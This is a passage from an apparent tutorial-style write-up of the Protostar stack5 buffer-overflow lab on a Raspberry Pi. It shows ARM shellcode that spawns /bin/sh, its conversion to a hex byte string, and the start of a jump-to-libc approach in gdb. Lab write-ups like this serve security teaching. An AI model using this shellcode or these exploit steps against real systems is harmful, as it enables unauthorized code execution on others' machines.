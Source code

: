 ```code
   e:	7242     	strb	r2, [r0, #9]
  10:	270b     	movs	r7, #11
  12:	df01     	svc	1
  14:	6e69622f 	.word	0x6e69622f
  18:	5868732f 	.word	0x5868732f

```
__No NULL bytes :)__  

Let's link and execute our shellcode

```code
pi@raspberrypi:~/protostar/stack5 $ ld -N shell_all.o -o shell_all
pi@raspberrypi:~/protostar/stack5 $ ./shell_all
$ pwd
/home/pi/protostar/stack5
$ exit
pi@raspberrypi:~/protostar/stack5 $
```

__and it works :)__  

Next steps is convert our shellcode to hex and we can accomplish this step with the support of `objcopy` and `hexdump`.

```code
pi@raspberrypi:~/protostar/stack5 $ objcopy -O binary shell_all shell_all.bin
pi@raspberrypi:~/protostar/stack5 $ hexdump -v -e '"\\""x" 1/1 "%02x" ""' shell_all.bin
\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x1a\x92\x1a\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x58
```

This one was just a little example. You can find tons of shellcodes from [exploit-db.com](https://www.exploit-db.com/) and [shell-storm.org](http://shell-storm.org/).

---
#### Solve the challenge

Now that we have our shellcode, let' analyse two possible strategies to use it:

#### 1. Jump to libc  
Let's run the program in `gdb` and take a look to some values that we need as:  
> ##### 1.1 libc address
```code
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start      End        Offset     Perm Path
0x00010000 0x00011000 0x00000000 r-x /home/pi/protostar/stack5/stack5
0x00020000 0x00021000 0x00000000 r-x /home/pi/protostar/stack5/stack5
0x00021000 0x00022000 0x00001000 rwx /home/pi/protostar/stack5/stack5
0x76e6b000 0x76fa3000 0x00000000 r-x /lib/arm-linux-gnueabihf/libc-2.28.so
0x76fa3000 0x76fb3000 0x00138000 --- /lib/arm-linux-gnueabihf/libc-2.28.so
0x76fb3000 0x76fb5000 0x00138000 r-x /lib/arm-linux-gnueabihf/libc-2.28.so
0x76fb5000 0x76fb6000 0x0013a000 rwx /lib/arm-linux-gnueabihf/libc-2.28.so
0x76fb6000 0x76fb9000 0x00000000 rwx
0x76fb9000 0x76fbd000 0x00000000 r-x /usr/lib/arm-linux-gnueabihf/libarmmem-v7l.so
0x76fbd000 0x76fcc000 0x00004000 --- /usr/lib/arm-linux-gnueabihf/libarmmem-v7l.so
0x76fcc000 0x76fcd000 0x00003000 r-x /usr/lib/arm-linux-gnueabihf/libarmmem-v7l.so
0x76fcd000 0x76fce000 0x00004000 rwx /usr/lib/arm-linux-gnueabihf/libarmmem-v7l.so
0x76fce000 0x76fee000 0x00000000 r-x /lib/arm-linux-gnueabihf/ld-2.28.so
0x76ff9000 0x76ffb000 0x00000000 rwx
0x76ffb000 0x76ffc000 0x00000000 r-x [sigpage]
0x76ffc000 0x76ffd000 0x00000000 r-- [vvar]
0x76ffd000 0x76ffe000 0x00000000 r-x [vdso]
0x76ffe000 0x76fff000 0x00020000 r-x /lib/arm-linux-gnueabihf/ld-2.28.so
0x76fff000 0x77000000 0x00021000 rwx /lib/arm-linux-gnueabihf/ld-2.28.so
0x7efdf000 0x7f000000 0x00000000 rwx [stack]
```